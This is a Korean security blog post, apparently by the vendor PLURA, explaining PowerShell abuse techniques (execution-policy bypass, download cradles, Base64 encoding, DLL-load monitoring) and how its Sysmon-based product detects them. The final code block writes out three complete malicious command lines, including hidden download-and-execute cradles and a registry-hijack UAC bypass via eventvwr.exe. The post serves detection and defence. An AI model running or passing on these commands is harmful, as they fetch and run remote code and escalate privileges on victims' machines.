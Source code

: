 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShell을 이용한 공격"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
---
```


PowerShell은 시스템 관리 및 자동화를 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되었으며, 관리 도구로 유용한 만큼 공격자들에게도 자주 사용되고 있습니다.

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 실행 정책 (Execution Policy)

Microsoft는 기본적으로 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  

**우회 플래그 예시:**  
- `-ExecutionPolicy` 또는 `-EP Bypass`  
- `-ExecutionPolicy` 또는 `-EP Unrestricted`  
- `-noprofile` 또는 `-nop`  

*Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정된 Profile도 무시할 수 있습니다.*

---

### 2. 다운로드

PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행할 수 있습니다.  

자주 사용되는 명령어:  
- **New-Object**: .NET Framework의 인스턴스를 생성합니다.  
- **System.Net.WebClient**: 원격 리소스와 데이터 송수신에 사용됩니다.  
- **DownloadString**: 원격지에서 내용을 메모리 버퍼로 다운로드합니다.  
- **DownloadFile**: 원격지에서 로컬 파일로 콘텐츠를 다운로드합니다.  
- **IEX (Invoke-Expression)**: 명령을 실행합니다.  
- **ICM (Invoke-Command)**: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

---

### 3. 인코딩

- PowerShell 명령어를 숨기기 위해 Base64 인코딩이 자주 사용됩니다.  
- 인코딩된 명령어는 명령줄 길이가 비정상적으로 길어질 수 있습니다.  
- 500자 이상의 긴 명령어는 의심해볼 필요가 있습니다.

---

### 4. DLL 호출

- 의심스러운 DLL 호출 조합을 찾아야 악의적 행동을 탐지할 수 있습니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 아래 DLL 호출이 발생하는지 모니터링하세요.  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)을 활용해 확인할 수 있습니다.*

---

### 5. PLURA에서 PowerShell 악성 행위 탐지

**Sysmon 설치 필수**  
- [설치 가이드 보기](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA 탐지](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### 악성 파일 실행 탐지 예시

PowerShell 우회 및 공격자 서버에서 파일 다운로드 행위 발생:  

![PowerShell 악성 실행](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURA 필터 탐지**  
PLURA는 Sysmon을 활용하여 아래와 같은 악성 명령을 탐지합니다:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 📖 함께 읽기

- [SANS 자료](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcom 보고서](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab 기사](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

